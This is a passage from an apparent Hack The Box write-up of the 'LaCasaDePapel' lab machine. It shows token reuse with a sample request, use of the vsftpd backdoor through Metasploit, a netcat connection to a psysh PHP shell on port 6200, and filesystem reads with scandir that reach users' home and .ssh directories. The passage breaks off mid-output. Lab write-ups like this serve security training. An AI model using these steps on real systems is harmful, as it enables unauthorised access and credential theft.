![](/assets/images/htb-writeup-lacasa/http_03.png)

![](/assets/images/htb-writeup-lacasa/http_04.png)

![](/assets/images/htb-writeup-lacasa/http_02.png)

I can re-use the same token for multiple requests as long as I send the same secret.

For example: `secret=MFFHCQSUOZ3XMTLMJFBS6TS2FJGEO4BQ&token=072534&email=test%40test.com` will work everytime.

### HTTP enumeration Port 443

The page on port 443 requires a client certificate which I don't have yet.

![](/assets/images/htb-writeup-lacasa/https_01.png)

### vsftpd exploit

The vsftpd version running on this box is vulnerable and there is already a Metasploit module for it:

![](/assets/images/htb-writeup-lacasa/vsftpd.png)

I ran the Metasploit module but didn't get a session back.

![](/assets/images/htb-writeup-lacasa/metasploit.png)

I ran the exploit again and got a message that the port was already open. So the exploit worked and opened port 6200 but Metasploit didn't detect a shell listening.

![](/assets/images/htb-writeup-lacasa/metasploit2.png)

Ok, here's why, bash is not listening on port 6200 but rather psysh, some kind of PHP shell cli.

```
# nc -nv 10.10.10.131 6200
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.131:6200.
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
```

![](/assets/images/htb-writeup-lacasa/psysh.png)

I can't run `system` or any other commands that'll give me a shell, as those are specifically blacklisted in the `disable_functions` parameter of the `php.ini` configuration file but I can use the `scandir` and `readfile` functions to poke at the filesystem.

```
scandir('/home');
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
scandir('/home/berlin');
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
```